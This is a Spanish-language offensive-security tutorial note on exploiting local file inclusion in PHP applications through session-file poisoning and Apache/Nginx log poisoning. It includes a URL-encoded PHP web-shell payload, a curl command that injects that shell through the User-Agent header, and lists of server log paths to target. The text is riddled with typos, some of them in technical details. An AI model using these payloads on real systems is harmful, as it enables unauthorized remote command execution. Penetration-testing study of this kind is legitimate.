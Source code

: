 ## ENVENENAMIENTO DE SESIÓN CON PHP

Las aplicaciones web utilizan "PHPSESSID" cookies, se utilizan para espicifar los datos del back-end del usuario, estos detalle que guarda son los archivos de sesion de /var/lib/pgp/sessions, Lo primero de todo que necesitarmeos en tener una sesión y examientar el archivo de sesió.

Una vez veamos un valor de cookie como "nhhv8i0o6ua4g88bkdl9u1fdsd" lo guardaremos en "/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd" esto incluira que podemos ver contenidos

Podemos ver que el rachivvo contiene 2 valores , la página que es seleccionado por el valor "language". El valor de preferencia no esta en nuestro control, no debemos especificarlo porque se especifica automaticamente, el pavor de la pagina es el que tenmos el control igual que el parametro language

```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

En este momento vamos a añadir un archivo "es-php" que nos dice que conseguimos valores  o código

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finalmentep ondemos añdir un "&cmd=id"

### EVENENAMIENTO DE LOG EN UN SERVIDOR

EN apache o ngnix encontramos bastantes archivos de log, como "access.log" "error.log" el acces.log contiene información sobre las consultas que se hacen al servidor, incluyendo las consultar "User-Agent" 

Nosotros deberemos incluid la vulnerabilidad "LFI", una vez que podamos leer los log con privilegios bajo, mientras los logs en apache debes tener mas privilegios.

Apache : - /var/log/apache2/

Windows : - C:\xampp\apache\logs\

Nginx : - /var/log/nginx/

Windows : C:\nginx\log\

Podriamos leer el log contenido direccones remotas, consultas, codigo de respuesta, el user ager.

Podemos envenenar el header "User-Agent" para cambiar la condiguración

```
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

Ahora esto contiene un código php expecificando (?cmd=id) 

Otra forma de utilizar esta misma tecnica es en sevicios

- /var/log/ssh.log
- /var/log/mail
- /var/log/vsftpd.log
